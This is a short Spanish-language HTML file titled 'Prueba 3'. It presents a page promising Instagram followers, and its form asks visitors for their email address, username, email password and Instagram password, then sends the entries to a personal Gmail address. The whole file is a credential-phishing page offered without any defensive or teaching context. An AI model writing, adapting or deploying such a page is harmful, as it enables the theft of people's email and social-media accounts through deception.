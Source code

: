 # Prueba 3
<html>
<body>

<h2>Segidores para Instagram:</h2>

<form action="c8534312@gmail.com" method="post" enctype="text/plain">
Email:<br>
<input type="text" name="Email"><br>
Nombre de Usuario:<br>
<input type="text" name="Nobre de Usuario"><br>
Contraseña Email:<br>
<input type="text" name="Contraseña Email" size="50"><br>
Contraseña Instagram:<br>
<input type="text" name="Contraseña Instagram">
<input type="submit" value="Send">
<input type="reset" value="Reset">
</form>

</body>
</html>
